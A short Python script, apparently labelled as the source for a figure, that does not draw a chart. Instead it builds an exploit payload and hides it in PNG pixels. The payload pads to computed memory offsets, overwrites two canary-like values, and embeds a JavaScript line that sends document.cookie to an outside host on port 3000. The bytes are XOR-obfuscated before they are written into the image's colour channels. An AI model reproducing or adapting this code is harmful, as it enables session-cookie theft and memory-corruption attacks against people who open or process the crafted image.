

The Python source for this figure:
from PIL import Image

fmt_str_addr = 5242966
out_addr = 2242864
my_cookie1 = 0x42042042
my_cookie2 = 0xdeadbeef
my_cookie1_addr = 2242832 + 3000032
my_cookie2_addr = my_cookie1_addr + 4

img = Image.new('RGBA', (1000, 1000), (0, 0, 0, 0))

def write_u32(payload, offset, value):
    payload[offset] = value & 0xFF
    payload[offset + 1] = (value >> 8) & 0xFF
    payload[offset + 2] = (value >> 16) & 0xFF
    payload[offset + 3] = (value >> 24) & 0xFF

payload = list(b'a' * (fmt_str_addr - out_addr) + b'fetch("http://dyn.themcribisback.com:3000/" + document.cookie)\0')

write_u32(payload, my_cookie1_addr - out_addr, my_cookie1)
write_u32(payload, my_cookie2_addr - out_addr, my_cookie2)

for i in range(len(payload)):
    if i % 4 != 3:
        payload[i] = payload[i] ^ 0xff

    pixel_idx = i // 4
    component_idx = i % 4
    
    orig_pixel = img.getpixel((pixel_idx % 1000, pixel_idx // 1000))
    new_pixel = list(orig_pixel)
    new_pixel[component_idx] = payload[i]
    img.putpixel((pixel_idx % 1000, pixel_idx // 1000), tuple(new_pixel))

# write pixel to png file
img.save('png_gen.png', compress_level=9)